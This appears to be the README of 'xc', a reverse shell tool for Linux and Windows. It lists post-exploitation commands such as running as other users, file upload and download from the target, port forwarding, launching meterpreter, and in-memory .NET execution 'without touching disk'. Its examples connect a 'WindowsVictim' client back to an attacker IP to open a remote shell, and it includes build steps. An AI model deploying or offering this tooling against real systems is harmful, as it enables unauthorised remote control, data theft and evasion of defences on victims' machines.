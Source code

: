 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental - pull requests are welcome :)

## Features

### Windows

``` 
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !runasps <username> <password> <domain>
   - restart xc with the specified user using powershell
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !vulns
   - checks for common vulnerabilities
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !powershell
 !net <sample.exe> <arg1> <arg2> ...   
   - Runs a .NET assembly from the server on the client without touching disk
 !exit
``` 

### Linux

```
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !ssh <port>
 !exit
``` 

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

``` 
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
``` 

Windows:
```
go build
```

Linux:
```
make
```
